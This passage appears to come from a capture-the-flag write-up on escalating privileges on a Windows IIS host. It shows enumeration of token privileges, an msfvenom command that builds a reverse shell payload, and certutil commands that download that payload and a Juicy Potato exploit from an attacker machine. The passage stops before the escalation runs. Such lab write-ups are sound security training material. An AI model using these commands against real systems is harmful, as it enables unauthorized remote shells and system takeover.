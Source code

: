 # Enumeration (2)

If we check out the privileges that `iis apppool\web` has,

```
c:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

we realise that he has the `SeAssignPrimaryTokenPrivilege` and `SeImpersonatePrivilege` rights. This means we can use `Juicy Potato`. Since this machine is `32-bit` (you can check from `systeminfo`), we need a `32-bit` version of `Juicy Potato` from [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases).

We will need to also use `msfvenom` to generate a `32-bit` reverse shell executable.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

# Exploitation (2)

After transferring both the `Juicy Potato` executable and our reverse shell executable from our attacker machine via `HTTP`,

```bash
c:\windows\system32\inetsrv> mkdir C:\temp
c:\windows\system32\inetsrv> certutil -f -split -urlcache http://10.10.XX.XX/reverse.exe C:\temp\reverse.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

c:\windows\system32\inetsrv> certutil -f -split -urlcache http://10.10.XX.XX/juicypotato86.exe C:\temp\juicypotato86.exe
****  Online  ****
  000000  ...
  040600
CertUtil: -URLCache command completed successfully.
```
